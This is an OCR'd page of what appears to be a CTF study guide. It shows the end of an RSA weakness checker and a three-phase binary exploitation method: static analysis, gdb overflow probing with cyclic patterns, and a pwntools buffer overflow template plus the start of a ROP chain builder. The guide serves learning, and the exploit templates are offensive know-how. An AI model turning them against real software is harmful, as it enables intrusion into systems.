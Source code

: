 ```python
        'small_e': e < 10,
        'common_e': e in [3, 65537],
        'small_n': n < 10**100,
        'factorizable': len(factors) > 0
    }
    
    return {'factors': factors, 'checks': checks}
```

---

## 💾 Binary Exploitation Methodology

### Phase 1: Static Analysis
```bash
# File information gathering
file binary_challenge
strings binary_challenge | grep -E "(flag|password|key)"
objdump -d binary_challenge | head -50
readelf -h binary_challenge

# Security mitigations check
checksec --file=binary_challenge
# Look for: NX, ASLR, Stack Canaries, PIE, RELRO
```

### Phase 2: Dynamic Analysis
```bash
# GDB debugging setup
gdb ./binary_challenge
(gdb) info functions
(gdb) disas main
(gdb) break main
(gdb) run

# Test for buffer overflow
python3 -c "print('A' * 100)" | ./binary_challenge
python3 -c "print('A' * 200)" | ./binary_challenge

# Generate cyclic pattern
(gdb) run < <(python3 -c "from pwn import *; print(cyclic(200))")
```

### Phase 3: Exploit Development
```python
from pwn import *

# Basic buffer overflow template
def exploit_buffer_overflow(binary_path, offset, return_address):
    p = process(binary_path)
    
    payload = b'A' * offset
    payload += p64(return_address)  # Return address (64-bit)
    
    p.sendline(payload)
    p.interactive()
    
    return p

# ROP chain development
def build_rop_chain(binary_path):
    elf = ELF(binary_path)
    rop = ROP(elf)
```